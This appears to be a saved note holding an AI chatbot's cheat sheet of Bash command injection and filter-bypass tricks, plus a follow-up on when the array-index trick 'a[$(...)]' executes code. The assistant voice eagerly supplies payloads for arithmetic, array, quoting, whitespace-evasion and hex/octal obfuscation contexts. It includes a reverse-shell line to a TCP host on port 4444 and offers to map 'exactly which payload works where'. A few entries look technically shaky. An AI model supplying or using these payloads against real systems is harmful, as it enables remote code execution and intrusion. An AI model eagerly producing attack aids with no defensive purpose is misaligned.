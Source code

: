 [[Eureka]] 


Perfect 👌 this is a **goldmine topic** because in Bash there are _many parsing contexts_ where an attacker can smuggle code execution.  
Here’s a structured **cheat sheet of command injection tricks in Bash** 🧨

---

## 🔹 1. Classic Substitution Tricks

These are the bread and butter:

- **Command substitution**
```sh
$(id)
`id`
```

- **Arithmetic expansion (forces command execution in `$(( ))`)**
```sh
$(( $(id) ))
```

- **Process substitution**
```sh
<(id)
>(id)
```

---

## 🔹 2. Array / Arithmetic Bypasses

These shine when the developer thinks only numbers are allowed.

- **Array index execution**
```sh
a[$(id)]
```

- **Arithmetic context execution**
```sh
$[ $(id) ]
```

---

## 🔹 3. String Injection Tricks

Useful when inside quotes or strings.

- **Concatenation with semicolons**
```sh
1; id
```

- **Newline as command separator**
```sh
1
id
```

- **Backticks inside quotes**
 ```sh
"foo$(id)"
'foo'"$(id)"
```

---

## 🔹 4. Variable Expansion Tricks

Sometimes devs filter only `$()` or `;`, but variables can help.
- **Indirect expansion**

 ```sh
${PATH}
${!USER*}
```

- **Force command execution inside parameter expansion**
```sh
${x:-$(id)}
${x:=$(id)}
 ```
    
---

## 🔹 5. File Redirection & Descriptors

Even if commands are limited, you can pivot to execution.
- **Redirection to TCP**
```sh
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
 ```

- **Here-strings**
```sh
cat <<< $(id)
```


---
## 🔹 6. Built-in Abuse

Even "safe-looking" built-ins can execute.
- **eval** : If you can reach `eval`, it’s game over:
```sh
eval "id"
 ```
- **declare, export, typeset** (support command substitution)
```sh
declare x=$(id)
export y=$(id)
```
- **printf** with `%()` (bash >= 4.2)
```sh
printf '%s\n' $(( $(id) ))
```

---

## 🔹 7. Whitespace / Filter Bypasses

If spaces are blocked:
- **Tab instead of space**
```sh
id<tab>
```

- **Brace expansion**
```sh
{ls,-la}
```

- **IFS abuse**
```sh
IFS=,;`echo,ls`
```

---
## 🔹 8. Logic / Flow Tricks

If inside conditions or loops.
- **Condition bypass**
```sh
if [[ 1 -eq $(id) ]]; then :; fi
```
- **Case injection**
```sh
case $(id) in esac
```

---

## 🔹 9. Encodings & Obfuscation

When filters block obvious payloads.

- **Hex encoded commands**
 ```sh
$'\x69\x64'
```
- **Octal**
```sh
$'\151\144'
```
- **Unicode homoglyphs**  
    Replace `;` or `|` with visually similar symbols in permissive parsers.

---

## 🔹 10. Special Shell Features

- **$() inside $() recursion**
```sh
$(echo $(id))
```
- **Command name expansion**
```sh
 {id}
```

---

💡 **Key idea**: Most injections boil down to finding what context you’re in (string, arithmetic, array, eval, etc.), then choosing the expansion trick that Bash will evaluate **before syntax errors stop it**.

---

👉 Do you want me to build a **table of contexts (string, arithmetic, eval, array, etc.) vs. which tricks execute**? That way you’ll know exactly which payload works where.





---

### ⚠️ Will `a[$(...)]` work in _most_ command injections?

Not really. It depends **heavily on the vulnerable context**:

1. **Arithmetic / array contexts** ✅
    
    - If the injection point is inside `(( ... ))`, `[[ ... -eq ... ]]`, or something that interprets array indexing, then yes — `a[$(...)]` can bypass numeric-only expectations.
    - Example:
        
        ```bash
        x=5
        if [[ $x -eq a[$(id)] ]]; then echo hi; fi
        ```
        
        → Runs `id`.
        
2. **Plain command execution** (e.g. `eval "$code"`, `sh -c "$input"`) 🚫
    
    - In those cases, you don’t need the `a[...]` trick at all — `$(...)` alone will work fine.
        
3. **Quoted strings** (e.g. `"value='$code'"`) ⚠️
    
    - If the vulnerable spot is inside quotes or passed as an argument, then `a[$(...)]` might actually break things, because array syntax won’t be valid there.
        
4. **Other shells** (dash, sh, zsh) 🤔
    
    - This trick is very **bash-specific**.
        
    - `dash` (used in Debian/Ubuntu for `/bin/sh`) doesn’t support arrays, so `a[...]` would fail before `$(...)` executes.
        

---

### ✅ When it _shines_

This trick is especially useful when:

- You’re injecting into a **numeric comparison** or arithmetic expression.
    
- The developer thinks only numbers will be allowed.
    
- Direct `$(...)` would cause parsing errors.
    

---

👉 So your intuition is right: it’s a **bypass technique** that works in certain command injection scenarios, but it’s **not universal**.

Would you like me to put together a **cheat sheet of contexts** (arithmetic, strings, eval, arrays) showing when `a[$(...)]` executes and when it fails? That way you’ll see exactly where it generalizes and where it doesn’t.